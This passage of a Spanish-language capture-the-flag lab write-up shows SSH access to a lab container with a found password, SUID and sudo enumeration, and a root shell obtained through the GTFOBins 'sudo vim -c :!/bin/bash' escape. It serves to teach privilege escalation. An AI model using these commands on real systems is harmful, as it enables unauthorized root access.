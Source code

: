 Consigo obtener la contraseña "chocolate" y accedo por ssh.

```shell
ssh mario@172.17.0.2                                                

mario@172.17.0.2's password: 
Linux ef6b3a3353e0 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@ef6b3a3353e0:~$ whoami
mario
mario@ef6b3a3353e0:~$
```

## Escalada de privilegios

Reviso mi usuario y veo que se encuentra en el grupo llamado "users".

```shell
mario@ef6b3a3353e0:~$ id
uid=1000(mario) gid=1000(mario) groups=1000(mario),100(users)
```

Desde la raíz, busco binarios con privilegios SUID ejecutando `find \-perm -4000 2>/dev/null`. No encuentro nada interesante.

```shell
find \-perm -4000 2>/dev/null
./usr/lib/openssh/ssh-keysign
./usr/bin/chsh
./usr/bin/su
./usr/bin/mount
./usr/bin/umount
./usr/bin/passwd
./usr/bin/gpasswd
./usr/bin/chfn
./usr/bin/newgrp
./usr/bin/sudo
```

Compruebo si el usuario actual tiene algún permiso especial. Con vim, puede ejecutar comandos como cualquier usuario.

```shell
mario@ef6b3a3353e0:/$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on ef6b3a3353e0:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on ef6b3a3353e0:
    (ALL) /usr/bin/vim
```

Investigando, encuentro en [vim-GTFOBins](https://gtfobins.github.io/gtfobins/vim/) un comando para abrir una terminal usando vim. Lo ejecuto y consigo hacerme root del sistema.

```shell
mario@ef6b3a3353e0:/$ sudo vim -c ':!/bin/bash'

root@ef6b3a3353e0:/£ whoami
root
```
